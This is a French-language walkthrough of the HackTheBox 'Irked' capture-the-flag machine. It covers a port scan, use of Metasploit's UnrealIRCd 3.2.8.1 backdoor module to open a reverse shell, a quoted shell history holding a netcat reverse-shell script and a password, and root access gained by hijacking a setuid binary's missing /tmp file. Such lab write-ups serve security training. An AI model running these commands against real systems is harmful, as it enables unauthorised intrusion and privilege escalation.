 ```yaml
---
title: "Solution du CTF Irked de HackTheBox"
tags: [CTF, HackTheBox]
---
```


Fast
----

*Irked* est un CTF proposé par *MrAgent* sur *HackTheBox*.  

Platforme Linux et difficulté facile (20 points), c'est parti !  

La machine dispose de ports ouverts classiques mais aussi certains en rapport avec IRC :  

```plain
Nmap scan report for 10.10.10.117
Host is up (0.029s latency).
Not shown: 65513 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
111/tcp   open     rpcbind
142/tcp   filtered bl-idm
2092/tcp  filtered descent3
3663/tcp  filtered dtp
6697/tcp  open     ircs-u
7634/tcp  filtered hddtemp
8067/tcp  open     infi-async
8512/tcp  filtered unknown
10572/tcp filtered unknown
15124/tcp filtered unknown
16477/tcp filtered unknown
22681/tcp filtered unknown
29675/tcp filtered unknown
29926/tcp filtered unknown
46360/tcp filtered unknown
48368/tcp filtered unknown
48810/tcp filtered unknown
49419/tcp open     unknown
52182/tcp filtered unknown
65534/tcp open     unknown
```

Le serveur web ne retournant rien d'intéressant c'est le moment de lancer le client IRC XChat pour voir ce que l'on trouve :  

```plain
* *** Looking up your hostname...
* *** Couldn't resolve your hostname; using your IP address instead
* You have not registered
* Welcome to the ROXnet IRC Network devloop!devloop@10.10.13.166
* Your host is irked.htb, running version Unreal3.2.8.1
* This server was created Mon May 14 2018 at 13:12:50 EDT
* irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
* UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
* WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
* EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
* There are 1 users and 2 invisible on 1 servers
* I have 3 clients and 0 servers
* Current Local Users: 3  Max: 3
* Current Global Users: 3  Max: 3
* MOTD File is missing
* devloop active le mode +i devloop
* devloop active le mode +w devloop
* devloop active le mode +x devloop
```

On voit ici que le serveur IRCd est un Unread en version 3.2.8.1, bien connu pour inclure une backdoor ([voir solution du CTF Relativity](http://devloop.users.sourceforge.net/index.php?article71/solution-du-ctf-relativity)).  

*Metasploit* dispose d'un module pour cette vulnérabilité, il suffit juste de tester quelques payloads pour en trouver un fonctionnel :  

```plain
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.117     yes       The target address
   RPORT  6697             yes       The target port (TCP)

Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.13.166     yes       The listen address (an interface may be specified)
   LPORT  80               yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 10.10.13.166:80
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Command shell session 1 opened (10.10.13.166:80 -> 10.10.10.117:33984) at 2019-02-03 12:07:42 +0100

id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

Le système est un Debian 32 bits (*Linux irked 3.16.0-6-686-pae #1 SMP Debian 3.16.56-1+deb8u1 (2018-05-08) i686 GNU/Linux*).  

Il y a un utilisateur qui possède le flag *user.txt* :  

```plain
1061877    4 drwxr-xr-x  18 djmardov djmardov     4096 Nov  3 04:40 /home/djmardov
1177472    4 drwx------   3 djmardov djmardov     4096 May 11  2018 /home/djmardov/.dbus
1061885    4 -rw-r--r--   1 djmardov djmardov      675 May 11  2018 /home/djmardov/.profile
1062684    0 lrwxrwxrwx   1 root     root            9 Nov  3 04:26 /home/djmardov/.bash_history -> /dev/null
1177702    4 drwx------   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/.ssh
1061894    4 drwxr-xr-x   2 djmardov djmardov     4096 May 14  2018 /home/djmardov/Downloads
1177456    4 drwxr-xr-x   2 djmardov djmardov     4096 May 15  2018 /home/djmardov/Documents
1177813    4 -rw-------   1 djmardov djmardov       33 May 15  2018 /home/djmardov/Documents/user.txt
1177807    4 -rw-r--r--   1 djmardov djmardov       52 May 16  2018 /home/djmardov/Documents/.backup
1177703    4 drwx------   2 djmardov djmardov     4096 May 15  2018 /home/djmardov/.gnupg
1061893    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Desktop
1177523    4 drwx------  13 djmardov djmardov     4096 May 15  2018 /home/djmardov/.cache
1177487    4 drwx------   3 djmardov djmardov     4096 Nov  3 04:40 /home/djmardov/.gconf
1177477    4 drwx------   3 djmardov djmardov     4096 May 11  2018 /home/djmardov/.local
1061897    8 -rw-------   1 djmardov djmardov     4706 Nov  3 04:40 /home/djmardov/.ICEauthority
1177457    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Music
1177455    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Public
1177467    4 drwx------  15 djmardov djmardov     4096 May 15  2018 /home/djmardov/.config
1061886    4 -rw-r--r--   1 djmardov djmardov      220 May 11  2018 /home/djmardov/.bash_logout
1061887    4 -rw-r--r--   1 djmardov djmardov     3515 May 11  2018 /home/djmardov/.bashrc
1177466    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Videos
1177458    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Pictures
1061895    4 drwxr-xr-x   2 djmardov djmardov     4096 May 11  2018 /home/djmardov/Templates
1177582    4 drwx------   4 djmardov djmardov     4096 May 11  2018 /home/djmardov/.mozilla
```

Le fichier *Documents/.backup* contient un mot de passe avec un indice laissant supposer qu'il faut utiliser un logiciel de stéganographie quelconque... pas trop envie XD  

And furious
-----------

Le fichier */home/ircd/.bash\_history* semble contenir des commandes de plus fort intérêt :  

```bash
echo '#!/bin/sh' > who
echo 'nc 10.10.13.255 4445 -e /bin/sh' >> who
chmod +x who
./who
/usr/bin/viewuser
su
su Kab6h+m+bbp2J
su
viewuser
exit
```

Malheureusement ce qui semble être un mot de passe ne semble pas permettre un accès SSH ni de passer root via *su* :(  

Le binaire *viewuser* semble être le chemin tout tracé :  

```plain
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
```

Une fois ce binaire récupéré on l'ouvre dans *Cutter* pour voir le *main()* :  

![HackTheBox Irked CTF viewuser disassembly in Cutter](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/irked_viewuser_main.png)

Et parmi les chaînes de caractères présentes dans le programme on voit */tmp/listusers* qui n'existe pas...  

```plain
ircd@irked:/var/www/html$ cp /bin/dash /tmp/listusers
ircd@irked:/var/www/html$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-02-03 08:08 (:0)
djmardov pts/2        2019-02-03 08:10 (10.10.14.226)
djmardov pts/0        2019-02-03 08:24 (10.10.14.13)
djmardov pts/8        2019-02-03 08:44 (10.10.12.244)
djmardov pts/10       2019-02-03 08:50 (10.10.15.100)
# id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
# cd /root
# ls
pass.txt  root.txt
# cat root.txt
8d8e9e8 -- snip --22daf3
```


*Published April 27 2019 at 17:44*
